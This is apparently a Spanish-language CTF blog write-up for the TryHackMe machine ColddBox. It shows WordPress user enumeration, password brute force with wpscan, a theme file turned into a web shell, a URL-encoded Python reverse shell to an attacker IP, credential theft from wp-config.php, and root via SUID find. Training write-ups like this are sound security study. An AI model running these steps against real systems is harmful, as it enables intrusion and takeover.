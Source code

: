 ```yaml
---
layout: single
title: Writeup THM - Maquina Colddbox
comments: true
excerpt: "ColddBox es una maquina de TryHackMe de nivel Easy, es una buena maquina para reforzar conocimientos. Empezaremos enumerando y encontramos una pagina hecha en wordpress, con wpscan podremos encontrar usuarios y realizar fuerza bruta, accedemos al panel de control de wordpress con credenciales que encontramos en nuestro anterior ataque de fuerza bruta. Editaremos un theme de wordpress para generar una reverse shell y somos un usuario www-data, pero rapidamente encontramos credenciales del user c0ldd en el archivo wp-config.php y por ultimo logramos ser root abusando de un binario find con permisos SUID."
date: 2022-01-27
classes: wide
header:
  teaser: /assets/images/2022-01-27-writeup-thm-colddbox/Untitled.png
  teaser_home_page: true
categories:
  - TryHackMe
tags:
  - OSCP  
  - Hacking
---
```


# ColddBox

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled.png)

## Resumen:

ColddBox es una maquina de TryHackMe de nivel Easy, es una buena maquina para reforzar conocimientos. Empezaremos enumerando y encontramos una pagina hecha en wordpress, con wpscan podremos encontrar usuarios y realizar fuerza bruta, accedemos al panel de control de wordpress con credenciales que encontramos en nuestro anterior ataque de fuerza bruta. Editaremos un theme de wordpress para generar una reverse shell y somos un usuario www-data, pero rapidamente encontramos credenciales del user c0ldd en el archivo wp-config.php y por ultimo logramos ser root abusando de un binario find con permisos SUID.

## Scan Nmap
<p align="center">
<img src="/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%201.png">
</p>

## Port 80 - Wordpress

```bash
ColddBox ❯ wpscan --url 10.10.202.208 --enumerate u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[snip]

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:04 <============================================================================================> (10 / 10) 100.00% Time: 00:00:04

[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Jan 27 21:10:40 2022
[+] Requests Done: 75
[+] Cached Requests: 6
[+] Data Sent: 17.239 KB
[+] Data Received: 17.997 MB
[+] Memory used: 186.215 MB
[+] Elapsed time: 00:02:42
```

usuarios encontrados

```bash
c0ldd
hugo
philip
```

haremos fuerza bruta con wpscan al usuario C0ldd

```bash
ColddBox ❯ wpscan --url http://10.10.202.208 --usernames c0ldd --passwords /usr/share/wordlists/rockyou.txt -t 50
```

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%202.png)

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%203.png)

genial pudimos encontrar credenciales con nuestro ataque de fuerza bruta

```bash
c0ldd:9876543210
```

accdemos al panel de control de wordpress con dichas credenciales

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%204.png)

iremos a la session Apperance → Editor, modificaremos el archivo 404.php para crear nuestra web shell

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%205.png)

accderemos a nuestra reverse en la siguiente ruta

```bash
http://10.10.202.208/wp-content/themes/twentyfifteen/404.php?cmd=whoami
```

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%206.png)

ahora nos toca crear una reverse shell para ello dejaremos en escucha el puerto 443 en escucha

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%207.png)

generaremos una reverse shell de la siguiente manera

```bash
http://10.10.202.208/wp-content/themes/twentyfifteen/404.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.9.132.249%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22bash%22)%27
```

y logramos conectarnos  y ejecutar comandos en la maquina victima

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%208.png)

## User c0ldd

en el archivo de configuracion de wp-config.php logramos encontrar credenciales del user c0ldd

```bash
www-data@ColddBox-Easy:/var/www/html/wp-content/themes/twentyfifteen$ cat /var/www/html/wp-config.php
<?php
/**
 * The base configurations of the WordPress.
 *
 * This file has the following configurations: MySQL settings, Table Prefix,
 * Secret Keys, and ABSPATH. You can find more information by visiting
 * {@link http://codex.wordpress.org/Editing_wp-config.php Editing wp-config.php}
 * Codex page. You can get the MySQL settings from your web host.
 *
 * This file is used by the wp-config.php creation script during the
 * installation. You don't have to use the web site, you can just copy this file
 * to "wp-config.php" and fill in the values.
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');

[snip]
```

credenciales encontradas 

```bash
c0ldd:cybersecurity
```

asi que accedemos con dichas credenciales

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%209.png)

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%2010.png)

## Escalacion de privilegios - User Root

para poder escalar privilegios buscaremos si tenemos un binario con permisos de SUID para lograr ser root

```bash
c0ldd@ColddBox-Easy:/home$ find / -type f -perm -u=s 2>/dev/null
/bin/su
/bin/ping6
/bin/ping
/bin/fusermount
/bin/umount
/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/find
/usr/bin/sudo
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/bin/at
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/passwd
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

y explotamos dicho binario find con permisos de SUID 

```bash
find . -exec /bin/sh -p \; -quit
```

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%2011.png)

Muchas gracias por tomarte tu tiempo en leer, nos vemos.